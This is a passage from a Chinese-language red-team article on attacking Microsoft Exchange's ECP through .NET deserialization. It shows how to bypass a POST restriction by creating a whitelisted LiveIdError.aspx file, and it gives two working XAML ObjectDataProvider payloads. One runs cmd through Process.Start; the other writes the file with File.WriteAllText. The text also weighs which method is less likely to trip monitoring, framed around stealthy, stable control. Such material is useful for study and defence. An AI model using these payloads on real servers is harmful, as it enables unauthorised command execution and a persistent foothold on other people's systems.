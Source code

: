 ### <a class="reference-link" name="0x41%20%E7%BB%95%E8%BF%87POST%E9%99%90%E5%88%B6"></a>0x41 绕过POST限制

红队操作更考虑隐蔽以及稳定控制，限制长度的Payload具有非常大的局限性，很难实现完美控制。

POST不受长度限制但默认被禁用，所有不需要权限的白名单文件均不存在。如果创建一个原本不存在的白名单文件，能否进行绕过？

那么进行测试，从web.config中随便挑一个允许POST且不存在的aspx文件，例如`LiveIdError.aspx`。在测试环境的ecp目录创建这个空文件。

之后修改之前的代码：

```
uint _clientstateid=(uint)(hashcode+StringComparer.InvariantCultureIgnoreCase.GetHashCode("liveiderror_aspx"));
```

编译执行访问，可看到返回了测试标识，证明思路有效。

[![](https://p4.ssl.qhimg.com/t018754d646e58a6c16.png)](https://p4.ssl.qhimg.com/t018754d646e58a6c16.png)

### <a class="reference-link" name="0x42%20%E6%9E%84%E9%80%A0%E5%86%99%E5%85%A5%E6%96%87%E4%BB%B6%E7%9A%84xaml"></a>0x42 构造写入文件的xaml

那么现在的问题就变成了：如何通过简短的反序列化，在ecp目录创建一个指定名称的空白文件？熟悉.net的人可能会瞬间给出答案，`System.IO.File::AppendAllText(string,string)`可以向指定路径的文件追加指定内容，当文件不存在时会创建。

使用此方法还有一个小问题，AppendAllText第一个参数如果是相对路径的话，将在`CurrentDirectory`创建文件，而绝大多数情况下w3wp的CurrentDirectory为`%systemroot%system32inetsrv`。

简单粗暴的解决这个问题有两种方案：由于Exchange会将安装目录保存在环境变量`ExchangeInstallPath`中，所以直接调用cmd进行echo即可；或者直接使用默认安装路径`C:Program FilesMicrosoftExchange ServerV15ClientAccessecp`。<br>
第一种可能会触发某些监控，第二种则存在小概率修改目录的可能。

这两种方案的xaml分别如下：

```
&lt;ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" 
    xmlns:System="clr-namespace:System;assembly=mscorlib" 
    xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system"&gt;
     &lt;ObjectDataProvider x:Key="" ObjectType="`{`x:Type Diag:Process`}`" MethodName="Start" &gt;
     &lt;ObjectDataProvider.MethodParameters&gt;
        &lt;System:String&gt;cmd&lt;/System:String&gt;
        &lt;System:String&gt;"/c cd %ExchangeInstallPath% &amp;amp;&amp;amp; echo . &gt; ClientAccessecpLiveIdError.aspx"&lt;/System:String&gt;
     &lt;/ObjectDataProvider.MethodParameters&gt;
    &lt;/ObjectDataProvider&gt;
&lt;/ResourceDictionary&gt;
```

```
&lt;ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" 
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:io="clr-namespace:System.IO;assembly=mscorlib"&gt;
  &lt;ObjectDataProvider x:Key="x" ObjectType="`{`x:Type io:File`}`" MethodName="WriteAllText"&gt;
    &lt;ObjectDataProvider.MethodParameters&gt;
      &lt;s:String&gt;C:Program FilesMicrosoftExchange ServerV15ClientAccessecpLiveIdError.aspx&lt;/s:String&gt;
      &lt;s:String&gt;&lt;/s:String&gt;
    &lt;/ObjectDataProvider.MethodParameters&gt;
  &lt;/ObjectDataProvider&gt;
&lt;/ResourceDictionary&gt;
```
